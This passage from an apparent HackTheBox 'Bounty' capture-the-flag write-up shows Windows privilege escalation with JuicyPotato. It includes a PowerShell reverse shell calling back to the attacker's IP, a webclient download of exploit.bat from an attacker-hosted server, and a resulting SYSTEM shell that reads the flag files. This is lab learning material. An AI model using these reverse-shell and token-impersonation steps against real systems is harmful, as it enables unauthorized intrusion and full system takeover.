 Now, lets create the reverse shell and host the local server! 

Thereafter, we can grab the `exploit.bat` from our local server and execute `JuicyPotato.exe`!

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat revshell2.ps1
...
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 9999


┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
10.10.10.93 - - [08/Jul/2022 22:50:08] "GET /exploit.bat HTTP/1.1" 200 -
10.10.10.93 - - [08/Jul/2022 22:50:21] "GET /revshell2.ps1 HTTP/1.1" 200 -

- Netcat listener -
PS C:\users\merlin\desktop> (new-object net.webclient).downloadfile('http://10.10.14.23:6969/exploit.bat', 'C:\Users\merlin\Desktop\exploit.bat')

PS C:\users\merlin\desktop> ./jp.exe -t * -p exploit.bat -l 9696
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9696
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

- Another netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# nc -nlvp 9999                  
listening on [any] 9999 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.93] 49177
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

PS C:\Windows\system32> type c:\users\merlin\desktop\user.txt
06831fefdd281c825b6ba52e51ac5a26

PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
d4ad739f4a8199ffea3b1149e40c121f
```

